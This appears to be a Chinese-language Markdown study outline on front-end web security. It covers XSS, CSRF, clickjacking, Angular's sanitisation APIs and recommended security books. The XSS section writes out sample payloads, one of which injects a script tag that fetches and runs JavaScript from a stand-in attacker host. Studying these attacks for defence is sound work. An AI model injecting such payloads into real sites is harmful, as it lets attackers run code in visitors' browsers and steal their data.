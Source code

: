 ## 大纲
* XSS攻击
* CXRF攻击
* 界面操作劫持
* 漏洞挖掘
* 目前前端项目
* 推荐书籍

### XSS攻击
[百度百科](https://baike.baidu.com/item/XSS%E6%94%BB%E5%87%BB/954065?fr=aladdin)
主要是注入脚本，如论坛里面用户输入`<script>alert();</script>`，页面回显的时候如果没有处理js脚本，就可能造成攻击。angular的$sce就是用来处理XSS攻击的。`<script>$.getScript('http://www.hack.com/index.js');</script>`

1. HTML中代码注入技巧(196页)
    * 标签注入
    * 属性注入
    * HTML事件
2. CSS代码注入技巧(209页)
    * CSS资源类属性
    * IE独有的expression
3. 更多经典的混淆CheckList(221页)
4. 例子
    * 浏览器记住密码(235)
    *

**能被我们利用插入XSS脚本的地方只有css资源类属性值和@import规则，以及IE浏览器下执行的属性值expression**

### CXRF攻击
[栗子](http://www.cnblogs.com/hyddd/archive/2009/04/09/1432744.html)

### 界面操作劫持
[栗子](http://blog.csdn.net/c2iekqea/article/details/55684701)


### 漏洞挖掘

1. csrf漏洞挖掘

    ![csrf](./img/csrf.png)

2. 界面操作劫持漏洞挖掘

    ![csrf](./img/2017-11-15_114735.png)


### 目前前端项目

目前是基于Angular的工程。使用webpack对js代码进行加密，混淆，中文Base64处理。

1. [Angular安全](https://angular.cn/guide/security)
    * bypassSecurityTrustHtml
    * bypassSecurityTrustScript
    * bypassSecurityTrustStyle
    * bypassSecurityTrustUrl
    * bypassSecurityTrustResourceUrl
2. [Angular安全：xsrf-防护](https://angular.cn/guide/http#安全：xsrf-防护)
2. [Angular安全：xssi-防护](https://angular.cn/guide/security#xssi)
3. [Angularjs xss防护：$sce服务](https://docs.angularjs.org/api/ng/service/$sce#use-the-latest-angularjs-possible)
    * trustAsHtml(value)
    * trustAsCss(value)
    * trustAsUrl(value)
    * trustAsResourceUrl(value)
    * trustAsJs(value)

### 书籍

1. [Web前端黑客技术揭秘](https://item.jd.com/12878817351.html) [Web前端黑客技术揭秘(视频)](https://ke.qq.com/course/133640)
2. [白帽子讲Web安全](https://item.jd.com/11483966.html)
3. [白帽子讲Web扫描](https://item.jd.com/15503446687.html)
